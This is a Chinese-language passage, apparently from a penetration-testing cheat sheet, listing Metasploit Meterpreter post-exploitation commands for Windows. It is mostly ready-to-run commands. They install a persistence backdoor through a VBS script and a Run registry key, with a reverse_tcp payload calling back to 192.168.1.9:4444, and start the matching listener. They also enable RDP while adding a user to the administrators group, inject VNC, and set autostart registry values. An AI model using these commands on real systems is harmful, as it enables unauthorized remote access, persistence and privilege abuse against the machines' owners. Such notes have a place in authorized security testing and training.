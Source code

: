 - **persistence 启动项后门**

    原理就是在 `C:\Users\用户名\AppData\Local\Temp` 下上传一个 VBS 脚本，通过该脚本，在注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` 下新建一个开机启动项

    ```bash
    # 自动化部署
    run persistence -A

    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登录时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```

    ```bash
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set LHOST [lhost]
    set LPORT [lport]
    exploit -j
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**vnc**
```bash
run vnc                             # 分段注入VNC DLL
```

**注册表操作**

通过注册表设置开机自启动
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note -d 'C:\Windows\System32\notepad.exe'

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note
```
